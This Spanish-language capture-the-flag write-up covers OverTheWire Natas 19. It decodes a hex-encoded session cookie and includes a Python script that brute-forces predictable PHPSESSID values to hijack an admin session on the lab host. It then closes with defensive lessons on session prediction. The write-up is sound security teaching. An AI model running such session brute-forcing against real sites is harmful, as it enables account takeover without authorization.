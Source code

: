 # Natas 19 – OverTheWire

El nivel muestra nuevamente un formulario de login similar al anterior.
Al intentar acceder con un usuario cualquiera, vemos algo como:

```url
You are logged in as a regular user.
```

Y, como en Natas 18, se nos asigna una cookie de sesión llamada `PHPSESSID`.

## Analisis

Al inspeccionar la cookie (DevTools → Application → Cookies), vemos que ahora el valor no es un número simple, sino algo como:

```php
PHPSESSID = 3239332d61646d696e
```

A simple vista parece una cadena aleatoria, pero si la decodificas de hexadecimal, obtienes:

```url
293-admin
```

Puedes comprobarlo con:

```bash
echo 3239332d61646d696e | xxd -r -p
```

Eso significa que el ID de sesión incluye el número de sesión y el nombre de usuario concatenados:

```url
<numero>-<username>
```

El servidor genera la cookie de sesión así (probablemente algo como esto en PHP):

```php
$session_id = rand(1, 640) . "-" . $username;
setcookie("PHPSESSID", bin2hex($session_id));
```

Sabiendo esto podemos generar todos los posibles `PHPSESSID` combinando números del 1 al 640 con `-admin`, codificándolos en hex y probándolos uno a uno.

Para ello nos vamos a crear un script en pytho que lo haga por nosotros.

```python
import requests, binascii, time
from pwn import log

url = "http://natas19.natas.labs.overthewire.org"
auth = ('natas19', '<ContraseñaNatas19>')

p1 = log.progress("Fuerza bruta")
p1.status("Iniciando ataque")

time.sleep(5)

for i in range(1, 641):
    session = f"{i}-admin"
    cookie_val = binascii.hexlify(session.encode()).decode()
    cookies = {'PHPSESSID': cookie_val}
    r = requests.get(url, auth=auth, cookies=cookies)

    p1.status(cookies)

    if "You are an admin" in r.text:
        print(f"[+] Admin Encontrado con ID: {i}")
        print(r.text)
        break
```

Con esto conseguimos el `phpsessid` como en el ejercicio anterior:

![Contraseña](Assets/Natas19/Contraseña.png)

## Conclusion

- Codificar ≠ proteger. `Base64/hex/bi` no es un mecanismo de seguridad.
- Si puedes manipular el valor de la cookie y el servidor lo interpreta directamente, puedes **elevar privilegios** fácilmente.
- Siempre usa identificadores de sesión aleatorios, no derivados de información del usuario.
- Esto se llama **Session Prediction / Session Fixation**.
